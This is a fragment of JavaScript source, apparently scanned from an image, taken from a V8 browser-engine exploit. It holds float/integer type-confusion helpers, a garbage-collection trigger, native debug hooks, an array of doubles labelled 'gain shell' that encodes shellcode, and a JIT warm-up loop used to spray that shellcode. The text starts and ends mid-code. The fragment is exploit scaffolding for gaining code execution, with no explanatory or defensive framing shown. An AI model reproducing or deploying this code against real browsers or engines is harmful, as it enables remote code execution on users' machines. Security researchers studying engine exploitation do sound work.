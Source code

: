 ```
    f64[0] = val;
return u32[0];
}
function f64_to_u32h(val){
    f64[0] = val;
return u32[1];
}
function f64_to_u64(val){
    f64[0] = val;
return u64[0];
}
function u64_to_f64(val){
    u64[0] = val;
return f64[0];
}

function u64_to_u32_lo(val){
    u64[0] = val;
return u32[0];
}

function u64_to_u32_hi(val){
    u64[0] = val;
return u32[1];
}

function trigger_gc(){
new Array(0x7fe00000);
}

function stop(){
// %SystemBreak();
console.log(&#34;Press Enter to continue...&#34;);
readline();
}

function p(arg){
    %DebugPrint(arg);
}

function spin(){
while(1){};
}

function hex(str){
return str.toString(16).padStart(16,0);
}

function logg(str,val){
console.log(&#34;[+] &#34;+ str + &#34;: &#34; + &#34;0x&#34; + hex(val));
}

// gain shell
const shellcode = () => {return [
1.9553825422107533e-246,
1.9560612558242147e-246,
1.9995714719542577e-246,
1.9533767332674093e-246,
2.6348604765229606e-284
];}

for(let i = 0; i< 40000; i++){
shellcode();
```